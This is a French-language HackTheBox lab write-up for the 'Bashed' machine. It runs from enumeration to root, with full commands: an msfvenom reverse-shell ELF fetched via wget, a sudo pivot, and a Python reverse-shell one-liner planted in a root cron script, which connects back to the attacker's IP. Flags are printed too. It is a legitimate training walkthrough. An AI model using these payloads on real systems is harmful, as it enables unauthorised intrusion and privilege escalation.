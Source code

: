 ```yaml
---
title: HTB | Bashed
description: Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, ...
slug: bashed-htb
date: 2025-01-13 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Bashed cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Bashed</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.68</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sC -sV -An -p- 10.10.10.68
...
80 -> HTTP : http://bashed.htb
```

## Foothold

### gobuster: found dev/ folder
```bash
$ gobuster dir -u http://bashed.htb -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/server-status        (Status: 403) [Size: 298]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

### phpbash.php: www-data and arrexel user
Dans le dossier dev/, on peut executer un script phpbash.php qui donne litteralement une session bash interactive en tant que www-data sur la machine :
```bash
http://bashed.htb/dev/phpbash.php

www-data@bashed:/# cd home/

www-data@bashed:/home# ls

arrexel
scriptmanager
www-data@bashed:/home# cd arrexel

www-data@bashed:/home/arrexel# ls

user.txt
www-data@bashed:/home/arrexel# cat user.txt

aef2caa5e32fc08bfaa0982ec46c8071
```

### Users
```bash
cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

### Reverse shell : msfvenom
Avec msfvenom, pour s'entrainer :
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=1337 -f elf -o test.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test.elf
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.68 - - [11/Jan/2025 19:11:27] "GET /test.elf HTTP/1.1" 200 -

------------------------------------------

$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 54598

python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/tmp$ export TERM=xterm
export TERM=xterm
www-data@bashed:/tmp$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~/htb/Bashed]
└─$ stty raw -echo; fg
[3]    continued  nc -lnvp 1337

www-data@bashed:/tmp$ whoami
www-data

---------------------------------------------

wget 10.10.14.42:8888/test.elf

--2025-01-11 16:18:10-- http://10.10.14.42:8888/test.elf
Connecting to 10.10.14.42:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'test.elf'

0K 100% 40.5M=0s

2025-01-11 16:18:10 (40.5 MB/s) - 'test.elf' saved [194/194]

www-data@bashed:/tmp# chmod 777 ./test.elf

www-data@bashed:/tmp# ls -la test.elf

-rwxrwxrwx 1 www-data www-data 194 Jan 11 16:10 test.elf
www-data@bashed:/tmp# ./test.elf &
```

## www-data -> scriptmanager

### Enumeration : sudo -l
On découvre qu'on peut executer n'importe quelle commande, en tant que l'utilisateur scriptmanager sans mot de passe !
```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

### shell as scriptmanager
On ouvre donc un bash en tant que scriptmanager :
```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

## scriptmanager -> root

### LinPEAS : /scripts folder
Avec linpeas, on découvre un dossier suspect "/scripts" à la racine, créer par le user `scriptmanager`.

On découvre qu'il contient deux fichiers :
```bash
scriptmanager@bashed:/scripts$ ls -l
total XX
-rw-r--r-- 1 scriptmanager scriptmanager 206 Jan 12 14:37 test.py
-rw-r--r-- 1 root          root           12 Jan 12 13:25 test.txt
```
Dans test.py, on peut voir une commande qui ecrit dans un fichier test.txt une string "hello". Ce fichier existe deja, donc le script a été executé auparavant. Comme le fichier semble avoir été crée par root, on déduit que root a executé ce script python. On suppose donc que ce fichier est potentiellement un script de test executé régulièrement par root, dans une crontab. On modifie donc le fichier test.py avec un reverse shell trouvé sur le site reverse shell generator :
https://www.revshells.com/
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

-----------------------------

nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 42276
## whoami
whoami
root
## cat /root/root.txt
cat /root/root.txt
4600bb18c83173fff6f9e174913978e4
```

